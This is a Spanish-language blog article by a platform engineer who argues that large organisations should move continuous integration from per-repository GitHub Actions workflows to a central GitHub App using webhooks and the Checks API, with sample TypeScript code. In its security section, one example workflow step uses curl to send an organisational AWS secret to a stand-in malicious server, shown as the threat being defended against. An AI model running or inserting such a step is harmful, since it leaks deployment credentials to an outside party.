


Cuando un equipo de desarrollo pasa de 10 a 50 ingenieros, GitHub Actions parece pura magia. Añades un archivo `.github/workflows/ci.yml` a tu repositorio, describes unos pasos en YAML y GitHub levanta al vuelo una máquina virtual en Azure para compilar y ejecutar tus pruebas. No hay servidores de integración continua que parchear, ni instancias maestras de Jenkins que reiniciar, ni costes iniciales de infraestructura.

**Avanza el tiempo hasta encontrarte en una gran organización con 3.000 desarrolladores, 1.200 microservicios y despliegues continuos diarios.**

De repente, esa misma carpeta `.github/workflows` se convierte en un laberinto operativo inmanejable:

- **Deriva masiva de pipelines (_Pipeline Drift_):** Incluso empleando "flujos de trabajo reutilizables" (_reusable workflows_), los equipos de plataforma tienen que abrir miles de Pull Requests a lo largo y ancho de cientos de repositorios individuales solo para actualizar la versión de una acción o aplicar un parche de seguridad normativo.
- **Saturación de colas y caídas de servicio:** Con la adopción masiva de herramientas de desarrollo asistidas por IA, el volumen de commits y Pull Requests se ha disparado. El motor central de colas y planificación de GitHub Actions sufre degradaciones con frecuencia, dejando a cientos de ingenieros bloqueados esperando runners disponibles.
- **La trampa de los runners autohospedados (_Self-Hosted Runners_):** Muchas empresas intentan escalar desplegando Actions Runner Controller (ARC) sobre Kubernetes, solo para descubrir que, aunque la computación sea local, el _plano de control y orquestación_ sigue siendo el backend cerrado de GitHub. Cuando la API de GitHub se satura, los runners locales se congelan.
- **Límites de seguridad difusos:** Distribuir credenciales de despliegue y secretos organizacionales en repositorios individuales multiplica la superficie de ataque frente a inyecciones de código y amenazas en la cadena de suministro.

¿Te has preguntado alguna vez cómo plataformas como **Vercel**, **Railway**, **Supabase** o **CircleCI** gestionan la integración continua de millones de repositorios sin obligarte jamás a crear un archivo `.github/workflows/deploy.yml`?

No usan GitHub Actions. **Utilizan GitHub Apps combinadas con orquestación centralizada basada en eventos sobre infraestructura propia.**

En este artículo analizamos por qué las grandes organizaciones técnicas están chocando contra el techo arquitectónico de GitHub Actions, cómo funciona por dentro la arquitectura de una GitHub App y cómo la migración a una flota centralizada ofrece compilaciones hasta 10 veces más rápidas, gobernanza absoluta y cero mantenimiento de flujos de trabajo.

---

## 1. La Anatomía de GitHub Actions a Gran Escala Empresarial

Para entender por qué las plataformas modernas evitan GitHub Actions para su ALM (_Application Lifecycle Management_) crítico, primero debemos analizar las limitaciones intrínsecas de su modelo de ejecución cuando se escala a miles de repositorios.



### La Falacia de los "Reusable Workflows"

GitHub introdujo los flujos reutilizables (`workflow_call`) para evitar duplicar YAML. Aunque supuso una mejora respecto a copiar y pegar 200 líneas de configuración entre repositorios, los flujos reutilizables adolecen de un fallo fundamental: **el acoplamiento en el repositorio invocador (_caller_)**.

Cada repositorio sigue necesitando un archivo de flujo local que invoque al flujo central:

```yaml
# En microservice-auth/.github/workflows/pipeline.yml
name: CI Empresarial

on: [push, pull_request]

jobs:
  build-and-test:
    uses: mi-org/shared-workflows/.github/workflows/standard-ci.yml@v2.4.1
    secrets: inherit
```

Analicemos qué ocurre en la práctica:

1. **Se detecta una vulnerabilidad crítica de día cero** en una herramienta de escaneo de dependencias, lo que exige una actualización inmediata a `@v2.5.0`.
2. **Un nuevo requisito de auditoría o cumplimiento normativo** altera las comprobaciones obligatorias para certificaciones SOC2 o ISO 27001.
3. **El administrador de un repositorio individual** altera los parámetros de entrada, deshabilita etapas o fija la versión en `@v1.0.0` para eludir controles de calidad lentos.

Para desplegar un cambio atómico, los equipos de plataforma deben orquestar campañas masivas de Pull Requests automáticas en miles de repositorios mediante scripts o bots. La consecuencia directa es lidiar con aprobaciones pendientes, conflictos de ramas, reglas de protección rotas y rebases infinitos.

**Esto no es infraestructura como código; es deuda técnica distribuida.**

### Orquestación Cerrada frente a la Ilusión del Autohospedaje

La respuesta habitual de muchas empresas frente a los retrasos de los runners de GitHub es desplegar runners autohospedados mediante Kubernetes (con Actions Runner Controller o ARC).

Sin embargo, ARC únicamente aloja el _contenedor de ejecución efímero_. El planificador o scheduler sigue operando dentro de la nube de GitHub:

```
[Git Push] ➔ [Hub de Webhooks de GitHub] ➔ [Cola Interna de GitHub] ➔ [Sondeo de ARC] ➔ [Lanzamiento de Pod]
```

Cuando la infraestructura de GitHub Actions sufre límites de tasa en sus APIs, retrasos en la entrega de webhooks o saturación en sus bases de datos (incidentes que ocurren con frecuencia durante picos de actividad empresarial), tu clúster de Kubernetes se queda desocupado. Los runners no pueden ejecutar trabajos que el planificador de GitHub aún no ha emitido.

Además, la limpieza del estado entre ejecuciones, el acceso al socket del demonio Docker y la compartición de cachés entre pods introducen fallos intermitentes y consumos de memoria desmedidos.

---

## 2. El Cambio de Paradigma: GitHub Apps y Orquestación Centralizada

Plataformas como Vercel jamás te piden que configures un archivo de flujo de trabajo en tu código. En cuanto realizas un push o abres un Pull Request, la plataforma detecta tu proyecto, ejecuta el análisis estático, compila, pasa los tests, despliega un entorno de vista previa y publica el estado directamente en la interfaz del Pull Request de GitHub.

¿Cómo lo consiguen? Mediante la **Arquitectura de GitHub Apps**.


En lugar de repartir archivos YAML por todos los repositorios, la organización instala una única **GitHub App** a nivel de organización.

### Principios del Modelo Basado en GitHub Apps

1. **Configuración Cero en el Repositorio (_Zero-Touch_):** Los repositorios de los equipos no contienen ningún archivo de workflow (la carpeta `.github/workflows/` puede incluso eliminarse).
2. **Ingesta de Eventos Mediante Webhooks:** Cada vez que un desarrollador hace push o abre un PR, GitHub envía un webhook firmado criptográficamente con HMAC-SHA256 a la pasarela central (API Gateway) de la plataforma.
3. **Máquina de Estados y Cola Central:** El gateway valida la firma y encola la tarea en un sistema de alta concurrencia (como Temporal, AWS SQS o Redis BullMQ).
4. **Cómputo Efímero en Infraestructura Propia:** Nodos de trabajo en infraestructura privada (microVMs Firecracker, clústeres Kubernetes o servidores bare-metal) ejecutan las compilaciones con cachés NVMe calientes y persistentes.
5. **Retroalimentación en Tiempo Real con la API de Checks:** El ejecutor central se comunica directamente con la **GitHub Checks API**, creando comprobaciones enriquecidas con anotaciones en las líneas exactas del código y enlaces directos a paneles de observabilidad.



---

## 3. Implementación Práctica: Orquestador Centralizado con GitHub Apps

Comprobar lo limpio y robusto que resulta este patrón es evidente al observar los bloques esenciales de código de un orquestador centralizado.

### 1. Ingesta Segura de Webhooks

El gateway central recibe las notificaciones de GitHub, verifica la autenticidad del remitente mediante HMAC-SHA256 y genera tokens de instalación temporales.

```typescript
import { Webhooks } from "@octokit/webhooks";
import { Octokit } from "@octokit/rest";
import { createAppAuth } from "@octokit/auth-app";

interface PayloadPipeline {
  repository: string;
  commitSha: string;
  installationId: number;
  branch: string;
}

const webhooks = new Webhooks({
  secret: process.env.GITHUB_WEBHOOK_SECRET!,
});

// Escuchar eventos de push en cualquier repositorio de la organización
webhooks.on("push", async ({ payload }) => {
  const repository = payload.repository.full_name;
  const commitSha = payload.after;
  const installationId = payload.installation?.id;
  const branch = payload.ref.replace("refs/heads/", "");

  if (!installationId || commitSha === "0000000000000000000000000000000000000000") {
    return; // Ignorar eliminación de ramas
  }

  console.log(`[ALM Central] Push recibido en ${repository} rama ${branch} (${commitSha})`);

  // Despachar el trabajo a la cola interna (Temporal / BullMQ / SQS)
  await despacharTrabajoPipeline({
    repository,
    commitSha,
    installationId,
    branch,
  });
});
```

### 2. Creación de Comprobaciones Nativas con la Checks API

En lugar de volcar texto plano en una terminal genérica de Actions, la GitHub App utiliza la **Checks API** para crear una comprobación visual con resúmenes en Markdown y metadatos.

```typescript
export async function crearCheckPipeline(payload: PayloadPipeline) {
  // Generar un token con vida máxima de 60 minutos con permisos mínimos
  const octokit = new Octokit({
    authStrategy: createAppAuth,
    auth: {
      appId: process.env.GITHUB_APP_ID!,
      privateKey: process.env.GITHUB_PRIVATE_KEY!,
      installationId: payload.installationId,
    },
  });

  const [owner, repo] = payload.repository.split("/");

  // Inicializar el Check Run en GitHub
  const check = await octokit.rest.checks.create({
    owner,
    repo,
    name: "ALM Central / Calidad y Seguridad",
    head_sha: payload.commitSha,
    status: "in_progress",
    started_at: new Date().toISOString(),
    output: {
      title: "Ejecutando Suite de Validación Empresarial",
      summary: "Iniciando microVM dedicada y evaluando políticas de ingeniería.",
    },
  });

  return { octokit, checkId: check.data.id, owner, repo };
}
```

### 3. Anotaciones Línea a Línea en el Diff de la Pull Request

Si el linter o las pruebas unitarias fallan, el runner central añade anotaciones directamente en la línea exacta del código modificado. Los desarrolladores no tienen que buscar errores entre miles de líneas de registros:

```typescript
export async function completarCheckPipeline(
  octokit: Octokit,
  owner: string,
  repo: string,
  checkId: number,
  errores: Array<{ path: string; line: number; message: string }>
) {
  const hayErrores = errores.length > 0;

  await octokit.rest.checks.update({
    owner,
    repo,
    check_run_id: checkId,
    status: "completed",
    conclusion: hayErrores ? "failure" : "success",
    completed_at: new Date().toISOString(),
    output: {
      title: hayErrores ? "Fallo en Puerta de Calidad" : "Validación Exitosa",
      summary: hayErrores
        ? `Se han detectado ${errores.length} incidencias contrarias a los estándares.`
        : "Todas las pruebas unitarias, análisis estático y escaneos finalizaron con éxito.",
      annotations: errores.map((e) => ({
        path: e.path,
        start_line: e.line,
        end_line: e.line,
        annotation_level: "failure",
        message: e.message,
        title: "Infracción de Estándar de Código",
      })),
    },
  });
}
```

---

## 4. Comparativa Técnica: GitHub Actions frente a GitHub Apps Centralizadas

¿Por qué las organizaciones tecnológicas de alto rendimiento están abandonando el modelo descentralizado de GitHub Actions? Los datos de arquitectura hablan por sí solos:

| Dimensión                     | GitHub Actions (Modelo Estándar)                                                  | Plataforma Centralizada con GitHub Apps                                               |
| :---------------------------- | :-------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------ |
| **Gobernanza de Pipelines**   | Fragmentada en miles de archivos `.github/workflows`. Alta divergencia.           | **100% centralizada**. Cero archivos en repositorios. Fuente única de verdad.         |
| **Actualizaciones Atómicas**  | Requiere miles de PRs en cada repositorio para actualizar versiones.              | **Instantáneas**. Un solo despliegue actualiza las políticas de toda la empresa.      |
| **Resiliencia Operativa**     | Depende del planificador interno de GitHub. Susceptible a colas saturadas.        | **Autónoma**. Colas internas (Kafka/Temporal) procesan eventos sin bloqueos externos. |
| **Rendimiento de Caché**      | Descargas por red lentas en cada ejecución (`actions/cache`).                     | **Discos NVMe locales y demonios de caché calientes**. Aciertos inmediatos.           |
| **Seguridad de Credenciales** | Secretos organizacionales inyectados en runners. Alto radio de impacto.           | **Tokens de 1 hora** generados bajo demanda con permisos mínimos por repositorio.     |
| **Experiencia de Desarrollo** | Registros de texto en bruto; el desarrollador debe buscar el fallo en la consola. | **Comprobaciones nativas en GitHub Checks**, anotaciones en el diff y paneles web.    |
| **Coste a Gran Escala**       | Facturación por minuto elevada o coste fijo de runners ociosos.                   | **Flota optimizada (spot/bare-metal)**, reducción de coste entre 5x y 10x.            |

---

## 5. Seguridad y Aislamiento: Blindando la Cadena de Suministro

En una configuración convencional de GitHub Actions, la gestión de secretos es un riesgo latente constante. Aunque los secretos estén definidos a nivel de organización, cualquier desarrollador con permisos de escritura puede modificar un workflow para exfiltrar variables de entorno:

```yaml
# Paso vulnerable en un workflow controlado por un desarrollador
- name: Exfiltración
  run: |
    curl -X POST https://servidor-malicioso.com/robo -d "$SECRET_ORGANIZACIONAL_AWS"
```

Aunque GitHub enmascara los secretos reconocidos en la terminal con asteriscos, el proceso en ejecución tiene acceso directo e íntegro a los bytes en memoria.

En la **Arquitectura Centralizada con GitHub Apps**, el código del usuario nunca entra en contacto con las credenciales de despliegue:

1. **Separación Estricta entre Compilación y Despliegue:** El código del repositorio se compila y prueba en una microVM sin privilegios y con red aislada.
2. **Cero Credenciales Ambientales:** El entorno de ejecución de tests no tiene acceso a cuentas IAM de la nube productiva ni a configuraciones de Kubernetes.
3. **Promoción Criptográfica:** Cuando los tests finalizan con éxito, el ejecutor firma el artefacto generado (con su hash SHA-256) y delega la publicación a un orquestador de despliegues completamente independiente al que ningún código de usuario tiene acceso.

---

## 6. Hoja de Ruta para la Transición

Abandonar GitHub Actions descentralizado no exige una reescritura traumática de un día para otro. Las organizaciones de plataforma más eficientes aplican una transición escalonada:

### Fase 1: Observabilidad Pasiva mediante Webhooks

Instala la GitHub App en la organización para suscribirte a eventos `push` y `pull_request`. Comienza utilizando la Checks API únicamente para reflejar los estados existentes o ejecutar auditorías de calidad no bloqueantes.

### Fase 2: Centralización de Puertas de Seguridad y Linters

Traslada el análisis estático (SonarQube, Trivy, ESLint, Semgrep) fuera de `.github/workflows` al orquestador central. Elimina esos pasos de los repositorios individuales. Los nuevos proyectos tendrán análisis automático desde el primer día sin configurar nada.

### Fase 3: Migración de Compilaciones Pesadas a Flota Propia

Mueve las compilaciones y suites de tests más exigentes a tu infraestructura dedicada. Sácale partido a cachés compartidas y persistentes (como cachés remotas de Turborepo, Gradle o capas predescargadas de contenedores).

### Fase 4: Desactivación de Workflows Locales

Configura las reglas organizacionales de GitHub (_Organization Rulesets_) para restringir la creación de archivos `.github/workflows` no autorizados. A partir de este momento, todo el ciclo de integración continua queda centralizado, gobernado y blindado.

---

## Conclusión: El Futuro de la Experiencia de Desarrollo

GitHub Actions democratizó la integración continua para el código abierto y proyectos pequeños. Sin embargo, asumir que un archivo YAML local en cada repositorio es la cúspide de la ingeniería de software empresarial es un error de arquitectura.

A medida que una organización crece, la necesidad de **gobernanza uniforme, computación predecible y aislamiento de seguridad** es imperativa.

Adoptando **GitHub Apps, la Checks API y una infraestructura de ejecución dedicada**, recuperas el control de la velocidad de desarrollo. Eliminas la dispersión de configuraciones, proteges las credenciales de tu empresa y garantizas que tus desarrolladores se concentren en crear valor, en lugar de pelear con pipelines rotos.

---

_Escrito por Alfonso Garcia, Arquitecto Cloud e Ingeniero de Plataforma._
